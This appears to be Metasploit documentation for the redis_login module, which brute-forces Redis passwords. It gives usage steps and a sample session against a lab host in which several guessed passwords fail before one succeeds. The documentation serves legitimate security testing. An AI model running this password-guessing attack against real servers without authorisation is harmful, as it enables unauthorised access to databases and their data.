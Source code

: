 ## Description
Redis is an in-memory data structure project implementing a distributed, in-memory key-value database with optional durability. Redis supports different kinds of abstract data structures, such as strings, lists, maps, sets, sorted sets, HyperLogLogs, bitmaps, streams, and spatial indexes.

This module is login utility to find the password of the redis server by using bruteforce method.

## Vulnerable Application
This module is tested on redis server 6.0.10.

Complete Installation guide ( https://redis.io/topics/quickstart )

## Verification Steps
1. Do: `use auxiliary/scanner/redis/redis_login`
2. Do: `set RHOSTS [ips]`
3. Do: `set PASS_FILE /home/kali/passwords.txt`
4. Do: `run`

## Scenarios
```
msf6 > use scanner/redis/redis_login
msf6 auxiliary(scanner/redis/redis_login) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf6 auxiliary(scanner/redis/redis_login) > set PASS_FILE /home/kali/Downloads/passwords.txt
PASS_FILE => /home/kali/Downloads/pass.txt
msf6 auxiliary(scanner/redis/redis_login) > run

[!] 192.168.1.7:6379      - No active DB -- Credential data will not be saved!
[-] 192.168.1.7:6379      - 192.168.1.7:6379      - LOGIN FAILED: redis:foobared (Incorrect: -WRONGPASS invalid username-password pair
)
[-] 192.168.1.7:6379      - 192.168.1.7:6379      - LOGIN FAILED: redis:admin (Incorrect: -WRONGPASS invalid username-password pair
)
[-] 192.168.1.7:6379      - 192.168.1.7:6379      - LOGIN FAILED: redis:administrator (Incorrect: -WRONGPASS invalid username-password pair
)
[+] 192.168.1.7:6379      - 192.168.1.7:6379      - Login Successful: redis:mypass (Successful: +OK
)
[*] 192.168.1.7:6379      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
